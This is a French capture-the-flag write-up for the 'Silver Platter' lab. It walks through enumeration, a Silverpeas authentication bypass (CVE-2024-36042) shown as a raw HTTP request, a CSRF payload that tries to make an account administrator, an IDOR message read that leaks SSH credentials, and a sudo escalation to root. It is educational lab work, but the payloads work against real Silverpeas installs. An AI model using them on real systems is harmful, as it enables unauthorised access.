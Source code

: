# ROOM : 
Silver Platter !

# Infos
Une petite VM rapide, cela fait longtemps que j'en ai pas fait. Mon nouveau travail me prend énormement de temp ! Elle est plutôt cool mais je trouve que la privesc pour devenir root est bien trop facile.

# Enumeration
Il y a une page web d'une boite de cybersécurité "Hack Smarter Security" qui propose de l'aide pour améliorer la sécurité des organisations.

Dans la page **Contact** on trouve quelques infos :
- On trouve un potentiel identifiant : **scr1ptkiddy**
- Le site utilise visiblement **Silverpeas**.

L'exploit est surement la [CVE-2024-36042](https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d)
Silverpeas est accessible depuis le port 8080.

## NMAP
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-07 13:31 EST
Nmap scan report for 10.10.198.87
Host is up (0.036s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
|_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Fri, 07 Mar 2025 18:31:44 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Fri, 07 Mar 2025 18:31:43 GMT
|_    <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|_http-title: Error

```
# Exploitation
Je test la **CVE-2024-36042**:

Requête dans Burp Suite : 
```
POST /silverpeas/AuthenticationServlet HTTP/1.1
Host: 10.10.198.87:8080
Content-Length: 38
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.198.87:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.198.87:8080/silverpeas/defaultLogin.jsp?DomainId=-1&ErrorCode=2
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=sa_zxO2nT9V2GAGxkwfNdXaOy8fOWMZmh7vvqsFq.ebabc79c6d2a
Connection: keep-alive

Login=scr1ptkiddy&DomainId=0
```
Elle fonctionne, j'ai accès au dashboard de Silverpeas, avec le compte de **scr1ptkiddy** mais il est simple utilisateur.

J'ai trouver ce [papers](https://rhinosecuritylabs.com/research/silverpeas-file-read-cves/) qui présente plusieurs CVEs concernant Silverpeas, je vais les tests.

On va test la privesc en passant par l'option **Write to administrators**.
Payload : 
```html
<html><body onload="document.forms[0].submit();"><form action="http://10.10.167.108:8080/silverpeas/RjobDomainPeas/jsp/userModify" method="GET"><input type="hidden" name="Iduser" value="1" /><input type="hidden" name="userLastName" value="scr1ptkiddy" /><input type="hidden" name="userAccessLevel" value="ADMINISTRATOR" /><input type="hidden" name="X-STKN" value="OTAyN2FkZTAtZDUzZi00MWVkLTk1MDktNTEwNmNmNTkyOGNk" /></form></body></html>
```
Mais cela ne fonctionne pas car je n'ai pas l'administrateur qui va lire ses messages, on ne peux donc pas exploiter cette CSRF.

On va test une autre CVE qui semble interessante, la CVE [CVE-2023-47323](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323) qui permet de lire les messages avec les ID, on va peut-être trouver des trucs utile.

Effectivement, le message avec l'ID **6** permet de voir un message de l'administrateur avec des identifiants/mot de passe de **tim** pour une connexion sur le serveur via SSH :
Payload : http://10.10.167.108:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=6
```
Dude how do you always forget the SSH password? Use a password manager and quit using your silly sticky notes. 
Username: tim
Password: cm0n[REDACTED]lol
```
Le compte fonctionne, me voici sur le serveur :
```
Last login: Wed Dec 13 16:33:12 2023 from 192.168.1.20
tim@silver-platter:~$ 
```
# Post-Exploitation
Nous sommes connecté en SSH sur le serveur et j'ai donc le 1er flag :
```
tim@silver-platter:~$ ls
user.txt
tim@silver-platter:~$ cat user.txt 
THM{c4c[REDACTED]49b}
```
Je vois qu'il y a un autre utilisateur du nom de **tyler** qui a un /bin/bash
```
tim@silver-platter:~$ cat /etc/passwd | grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
tyler:x:1000:1000:root:/home/tyler:/bin/bash
tim:x:1001:1001::/home/tim:/bin/bash
```
Mon user actuel n'est pas dans le groupe SUDO:
```
tim@silver-platter:/home$ sudo -l
[sudo] password for tim: 
Sorry, user tim may not run sudo on silver-platter.
```
Je pense que le but ici est d'avoir le compte de **tyler** et ensuite **root**.

Je sais que **tim** fait parti du group **adm**. Être dans ce groupe permet de lire les logs sans avoir de privilèges **root**.
```
tim@silver-platter:/tmp$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```
Dans **/var/log/auth.log.2** on retrouve un mot de passe:
```
Dec 13 15:45:57 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=[REDACTED] -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:6.3.1
```
Il s'agit du mot de passe de **tyler**
```
tim@silver-platter:/tmp$ su tyler
Password: 
tyler@silver-platter:/tmp$ 
```
## Prives to Root :)
Easy. Tyle est dans le groupe sudo avec **(ALL : ALL) ALL**, cela signifie que l'utilisateur **tyler** peut exécuter toutes les commandes en tant que n'importe quel utilisateur et n'importe quel groupe, avec sudo.
En gros, cet utilisateur a un accès total via sudo, comme s'il était root.
```
tyler@silver-platter:~$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
tyler@silver-platter:~$
```
Avec **sudo su** on devient donc **root**
```
tyler@silver-platter:~$ sudo su
root@silver-platter:/home/tyler# 
```
```
root@silver-platter:/home/tyler# cat /root/root.txt 
THM{098[REDACTED]f6}
```
